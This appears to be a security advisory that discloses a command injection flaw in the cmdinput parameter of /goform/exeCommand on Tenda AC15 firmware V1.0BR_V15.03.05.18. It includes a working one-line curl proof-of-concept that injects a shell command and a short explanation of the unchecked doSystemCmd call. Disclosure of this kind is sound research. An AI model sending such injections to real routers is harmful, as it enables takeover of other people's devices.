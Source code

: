 **Vendor of the products:** Tenda

**Affected Device:** Tenda AC15

**Version:** V1.0BR_V15.03.05.18

**Firmware Download:** https://www.tenda.com.cn/material/show/2710



**Vulnerability Description:** A command injection vulnerability was discovered in Tenda AC15 V1.0BR_V15.03.05.18, triggered by the cmdinput parameter in /goform/exeCommand. Attackers can exploit this vulnerability by crafting malicious packets to execute arbitrary commands, thereby gaining full control of the target device.



# POC:

```bash
curl http://192.168.0.1/goform/exeCommand?cmdinput=;touch /tmp/hack.txt
```

![image-20250904185702175](Tenda_AC15_CJ.assets/image-20250904185702175.png)

# Vulnerability Effect:

It can be seen that the file has been successfully created and the command has been executed successfully. 

![image-20250904191903197](Tenda_AC15_CJ.assets/image-20250904191903197.png)

# Vulnerability Cause:

In the formexeCommand function, the program first obtains the value of  the "cmdinput" parameter, then directly concatenates it into the  doSystemCmd function for execution without any security checks. This  allows attackers to execute arbitrary commands and thus gain full  control of the device.

![image-20250904191257030](Tenda_AC15_CJ.assets/image-20250904191257030.png)

 